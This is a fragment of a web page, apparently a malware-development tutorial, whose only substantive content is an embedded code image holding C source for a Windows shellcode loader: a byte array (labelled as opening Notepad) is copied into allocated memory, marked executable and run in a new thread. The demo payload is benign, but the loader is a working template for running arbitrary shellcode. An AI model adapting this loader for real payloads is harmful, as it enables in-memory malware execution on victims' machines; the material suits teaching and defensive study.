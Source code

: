 Note that some of the APIs have optional parameters which we don't have to put values, we put a 0 in place
{{< /alert >}}



<iframe
  src="https://carbon.now.sh/embed?bg=rgba%280%2C0%2C202%2C0%29&t=panda-syntax&wt=sharp&l=text%2Fx-c%2B%2Bsrc&width=768&ds=false&dsyoff=20px&dsblur=68px&wc=true&wa=false&pv=0px&ph=0px&ln=false&fl=1&fm=Fira+Code&fs=14px&lh=143%25&si=false&es=2x&wm=false&code=%2523include%2520%253Cwindows.h%253E%250A%2523include%2520%253Cstdio.h%253E%250A%2523include%2520%253Cstdlib.h%253E%250A%2523include%2520%253Cstring.h%253E%250A%250Aint%2520main%28void%29%2520%257B%250A%250A%2509void*%2520exec_mem%253B%250A%2509BOOL%2520rv%253B%250A%2509HANDLE%2520th%253B%250A%2509DWORD%2520oldprotect%2520%253D%25200%253B%250A%250A%2509unsigned%2520char%2520payload%255B%255D%2520%253D%2520%257B%250A%2509%2509%252F%252F%2520shellcode%2520to%2520open%2520notepad%250A%2509%25200xfc%252C0x48%252C0x83%252C0xe4%252C0xf0%252C0xe8%252C0xc0%252C0x00%252C0x00%252C0x00%252C0x41%252C0x51%252C0x41%252C0x50%250A%2509%252C0x52%252C0x51%252C0x56%252C0x48%252C0x31%252C0xd2%252C0x65%252C0x48%252C0x8b%252C0x52%252C0x60%252C0x48%252C0x8b%252C0x52%250A%2509%252C0x18%252C0x48%252C0x8b%252C0x52%252C0x20%252C0x48%252C0x8b%252C0x72%252C0x50%252C0x48%252C0x0f%252C0xb7%252C0x4a%252C0x4a%250A%2509%252C0x4d%252C0x31%252C0xc9%252C0x48%252C0x31%252C0xc0%252C0xac%252C0x3c%252C0x61%252C0x7c%252C0x02%252C0x2c%252C0x20%252C0x41%250A%2509%252C0xc1%252C0xc9%252C0x0d%252C0x41%252C0x01%252C0xc1%252C0xe2%252C0xed%252C0x52%252C0x41%252C0x51%252C0x48%252C0x8b%252C0x52%250A%2509%252C0x20%252C0x8b%252C0x42%252C0x3c%252C0x48%252C0x01%252C0xd0%252C0x8b%252C0x80%252C0x88%252C0x00%252C0x00%252C0x00%252C0x48%250A%2509%252C0x85%252C0xc0%252C0x74%252C0x67%252C0x48%252C0x01%252C0xd0%252C0x50%252C0x8b%252C0x48%252C0x18%252C0x44%252C0x8b%252C0x40%250A%2509%252C0x20%252C0x49%252C0x01%252C0xd0%252C0xe3%252C0x56%252C0x48%252C0xff%252C0xc9%252C0x41%252C0x8b%252C0x34%252C0x88%252C0x48%250A%2509%252C0x01%252C0xd6%252C0x4d%252C0x31%252C0xc9%252C0x48%252C0x31%252C0xc0%252C0xac%252C0x41%252C0xc1%252C0xc9%252C0x0d%252C0x41%250A%2509%252C0x01%252C0xc1%252C0x38%252C0xe0%252C0x75%252C0xf1%252C0x4c%252C0x03%252C0x4c%252C0x24%252C0x08%252C0x45%252C0x39%252C0xd1%250A%2509%252C0x75%252C0xd8%252C0x58%252C0x44%252C0x8b%252C0x40%252C0x24%252C0x49%252C0x01%252C0xd0%252C0x66%252C0x41%252C0x8b%252C0x0c%250A%2509%252C0x48%252C0x44%252C0x8b%252C0x40%252C0x1c%252C0x49%252C0x01%252C0xd0%252C0x41%252C0x8b%252C0x04%252C0x88%252C0x48%252C0x01%250A%2509%252C0xd0%252C0x41%252C0x58%252C0x41%252C0x58%252C0x5e%252C0x59%252C0x5a%252C0x41%252C0x58%252C0x41%252C0x59%252C0x41%252C0x5a%250A%2509%252C0x48%252C0x83%252C0xec%252C0x20%252C0x41%252C0x52%252C0xff%252C0xe0%252C0x58%252C0x41%252C0x59%252C0x5a%252C0x48%252C0x8b%250A%2509%252C0x12%252C0xe9%252C0x57%252C0xff%252C0xff%252C0xff%252C0x5d%252C0x48%252C0xba%252C0x01%252C0x00%252C0x00%252C0x00%252C0x00%250A%2509%252C0x00%252C0x00%252C0x00%252C0x48%252C0x8d%252C0x8d%252C0x01%252C0x01%252C0x00%252C0x00%252C0x41%252C0xba%252C0x31%252C0x8b%250A%2509%252C0x6f%252C0x87%252C0xff%252C0xd5%252C0xbb%252C0xf0%252C0xb5%252C0xa2%252C0x56%252C0x41%252C0xba%252C0xa6%252C0x95%252C0xbd%250A%2509%252C0x9d%252C0xff%252C0xd5%252C0x48%252C0x83%252C0xc4%252C0x28%252C0x3c%252C0x06%252C0x7c%252C0x0a%252C0x80%252C0xfb%252C0xe0%250A%2509%252C0x75%252C0x05%252C0xbb%252C0x47%252C0x13%252C0x72%252C0x6f%252C0x6a%252C0x00%252C0x59%252C0x41%252C0x89%252C0xda%252C0xff%250A%2509%252C0xd5%252C0x6e%252C0x6f%252C0x74%252C0x65%252C0x70%252C0x61%252C0x64%252C0x2e%252C0x65%252C0x78%252C0x65%252C0x00%250A%2509%257D%253B%250A%250A%2520%2520%2520%2520unsigned%2520int%2520payload_len%2520%253D%2520350%253B%250A%250A%2509%252F%252F%2520Allocate%2520a%2520memory%2520buffer%2520for%2520payload%250A%2509exec_mem%2520%253D%2520VirtualAlloc%280%252C%2520payload_len%252C%2520MEM_COMMIT%2520%257C%2520MEM_RESERVE%252C%2520PAGE_READWRITE%29%253B%250A%2520%2520%2520%2520%252F%252F%2520Copy%2520payload%2520to%2520new%2520buffer%250A%2509RtlMoveMemory%28exec_mem%252C%2520payload%252C%2520payload_len%29%253B%250A%2509%252F%252F%2520Make%2520new%2520buffer%2520as%2520executable%250A%2509rv%2520%253D%2520VirtualProtect%28exec_mem%252C%2520payload_len%252C%2520PAGE_EXECUTE_READ%252C%2520%2526oldprotect%29%253B%250A%2509%252F%252F%2520If%2520all%2520good%252C%2520run%2520the%2520payload%250A%2509if%2520%28rv%2520%21%253D%25200%29%2520%257B%250A%2509%2509th%2520%253D%2520CreateThread%280%252C%25200%252C%2520%28LPTHREAD_START_ROUTINE%29exec_mem%252C%25200%252C%25200%252C%25200%29%253B%250A%2509%2509WaitForSingleObject%28th%252C%2520-1%29%253B%250A%2509%257D%250A%250A%2509return%25200%253B%250A%257D"
  style="width: 783px; height: 1100px; border:0; transform: scale(1); overflow:hidden;"
  sandbox="allow-scripts allow-same-origin">
</iframe>
